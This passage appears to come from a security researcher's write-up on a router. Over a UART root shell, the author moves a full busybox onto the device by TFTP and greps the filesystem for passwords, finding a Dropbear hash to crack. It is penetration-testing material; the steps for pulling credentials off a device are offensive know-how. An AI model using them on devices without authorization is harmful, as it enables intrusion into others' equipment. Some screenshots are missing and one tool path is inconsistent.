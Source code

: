         Usually this CLI provides access to tools to read and write to memory, set environment details and gather further information about the board. Unfortunately, the repurposed version of U-Boot has removed this functionality. The only functionality remaining is to perform a TFTP boot. This can be done to boot from firmware over the network as a recovery method.


        Enumeration via UART Shell
        Pressing Enter revealed there was shell access with no login as root user:



        Checking over the available binaries in the bin folder, busybox was discovered:



        Busybox is a popular binary used on embedded systems as it packages many common Linux/Unix binaries into one smaller package.

        Observing the available functions in busybox it was noted that this appears to be a stripped-down version of Busybox, however, TFTP was still available.


        Transferring Full Version of Busybox over TFTP
        The full version of Busybox was downloaded from: https://busybox.net/downloads/binaries/

        The TFTP from the existing busybox was then used to transfer over the full version of busybox.

        Command From Kali VM to start TFTP server as daemon: sudo atftpd --daemon

        Created a folder to transfer over tools in /var/tmp/_tools /var was previously identified as writable.

        Command from Router to initiate file transfer: tftp -r busybox-mipsel -g 192.168.0.100

        The full version of busybox was then available to use for further enumeration.


        Enumerating /var folder
        Using the new full version of Busybox grep was utilized to search for files with "pass" in it in order to identify possible hardcoded passwords.

        Command: /var/temp/_tools/busybox-mipsel grep -r 'pass' .



        Noted three config files that may contain passwords and what appears to be a hashed password for Dropbear.

        Config file passwords were blank, Dropbear hash was saved to attempt to crack at a later time.

        Command: /var/temp/_tools/busybox-mipsel grep -r 'pass' .



        Command: /var/temp/_tools/busybox-mipsel find -name '*.xml'



        Command: /var/temp/_tools/busybox-mipsel find -name '*.conf'



        Further enumeration of the config files did not reveal any additional useful information.


        Cracking Password Hashes
        Admin hash from passwd file was identified as Unix Md5 hash and cracked using the below command.
